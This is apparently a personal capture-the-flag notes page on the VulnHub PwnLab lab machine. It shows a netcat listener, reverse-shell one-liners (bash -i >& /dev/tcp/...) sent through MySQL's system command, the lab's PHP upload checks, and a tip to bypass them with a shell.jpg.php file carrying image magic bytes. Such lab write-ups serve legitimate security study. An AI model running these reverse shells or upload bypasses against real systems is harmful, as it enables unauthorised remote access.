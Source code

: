 I was today years old when I learned that system command of mysql runs LOCAL not remote.

![png](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/pwnlab_localshelll.png)

![gif](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/pwnlab_localshelll.gif)


```
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# nc -nlvp 808
listening on [any] 808 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.102] 36662  
``` 

``` 
MySQL [(none)]> system
ERROR: Usage: \! shell-command
MySQL [(none)]> system ls
config.php  login.php
MySQL [(none)]> system bash -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system sh -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system bash -c "bash -i >& /dev/tcp/192.168.56.102/808 0>&1"
```

### upload via web

use creds from DB. Login.

upload page checks 3 things.
- Extensions
- image file type with ['type']
- mime data with getimagesize

so upload a shell.jpg.php with a magic byte

```php
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
        }
```
